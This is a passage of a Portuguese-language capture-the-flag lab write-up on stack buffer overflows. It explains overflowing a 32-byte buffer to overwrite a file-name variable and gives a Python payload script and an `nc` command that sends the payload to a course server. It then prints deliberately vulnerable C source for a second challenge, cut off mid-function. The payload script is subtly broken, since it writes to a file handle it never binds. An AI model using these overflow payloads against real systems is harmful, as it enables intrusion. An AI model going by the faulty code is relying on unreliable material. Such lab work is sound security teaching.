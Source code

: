 
É claramente aparente que o objetivo do desafio é dar overflow ao *buffer* de 32 bytes para reescrever a variável `meme_file`.
Esta encontrar-se-à imediatamente a seguir ao *buffer* na *stack*, logo bastará preencher o buffer completamente que os seguintes bytes que o programa receber acabarão por reescrever a variável `meme_file`.

Com o seguinte script conseguimos criar um ficheiro que podemos enviar por *standard input* para o servidor:

```py
with open('badfile', 'wb'):
    fl.write(0xFFFFFFFF.to_bytes(4, byteorder='little')*8)
    fl.write(bytes('flag.txt', 'latin-1'))
```

E com o seguinte comando conseguimos obter a *flag*:

```bash
echo $(cat badfile) | nc ctf-fsi.fe.up.pt 4003
```

![](img/lab05/desafio_1.png)

## Desafio 2

Neste segundo desafio deparamo-nos com uma situação muito semelhante:


```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[9] = "mem.txt\0\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
```